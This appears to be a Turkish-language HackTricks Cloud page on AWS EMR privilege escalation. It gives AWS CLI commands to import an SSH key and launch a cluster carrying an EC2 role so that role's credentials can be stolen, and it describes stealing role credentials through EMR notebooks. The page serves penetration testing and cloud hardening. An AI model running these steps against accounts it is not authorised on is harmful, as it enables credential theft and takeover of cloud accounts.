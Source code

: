 # AWS - EMR Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünleri**](https://peass.creator-spring.com)'ni edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'i **takip edin**.
* Hacking hilelerinizi **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek paylaşın.

</details>

## EMR

EMR hakkında daha fazla **bilgi** için:

{% content-ref url="https://github.com/carlospolop/hacktricks-cloud/blob/tr/pentesting-cloud/aws-security/aws-hizmetleri/aws-emr-enum.md" %}
[https://github.com/carlospolop/hacktricks-cloud/blob/tr/pentesting-cloud/aws-security/aws-hizmetleri/aws-emr-enum.md](https://github.com/carlospolop/hacktricks-cloud/blob/tr/pentesting-cloud/aws-security/aws-hizmetleri/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

Bu izinlere sahip bir saldırgan, **EC2 rollerini ekleyerek yeni bir EMR kümesi çalıştırabilir** ve kimlik bilgilerini çalmaya çalışabilir.\
Bunun için hesaba **ithal edilmiş bir ssh özel anahtarı bilmek** veya bir tane **ithal etmek** ve **ana düğümde 22 numaralı bağlantı noktasını açabilmek** gerekmektedir (bunu `--ec2-attributes` içindeki `EmrManagedMasterSecurityGroup` ve/veya `ServiceAccessSecurityGroup` öznitelikleriyle yapabilirsiniz).

```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```

**EMR rolü** `--service-role` içinde belirtilir ve **ec2 rolü** `--ec2-attributes` içinde `InstanceProfile` içinde belirtilir. Ancak, bu teknik sadece EC2 rolü kimlik bilgilerini çalmaya izin verir (ssh üzerinden bağlantı kuracağınız için) ancak EMR IAM Rolünü çalmaya izin vermez.

**Potansiyel Etki:** Belirtilen EC2 hizmet rolüne ayrıcalık yükseltme.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

Bu izinlerle bir saldırgan **AWS konsoluna** gidebilir, bir Not Defteri oluşturabilir ve ona erişerek IAM Rolünü çalabilir.

{% hint style="danger" %}
Not defteri örneğine bir IAM rolü ekleseniz bile, testlerimde fark ettiğim gibi, AWS tarafından yönetilen kimlik bilgilerini çalabildim ve IAM rolüyle ilgili kimlik bilgilerini çalamadım.
{% endhint %}

**Potansiyel Etki:** AWS tarafından yönetilen rol arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile'e ayrıcalık yükseltme.

### `elasticmapreduce:OpenEditorInConsole`

Sadece bu izinle bir saldırgan, **Jupyter Notebook'a erişebilir ve ona bağlı IAM rolünü** çalabilir.\
Not defterinin URL'si `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/` şeklindedir.

{% hint style="danger" %}
Not defteri örneğine bir IAM rolü ekleseniz bile, testlerimde fark ettiğim gibi, AWS tarafından yönetilen kimlik bilgilerini çalabildim ve IAM rolüyle ilgili kimlik bilgilerini çalamadım.
{% endhint %}

**Potansiyel Etki:** AWS tarafından yönetilen rol arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile'e ayrıcalık yükseltme.

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin!</summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin.
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz olan [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin.
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da** takip edin.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>
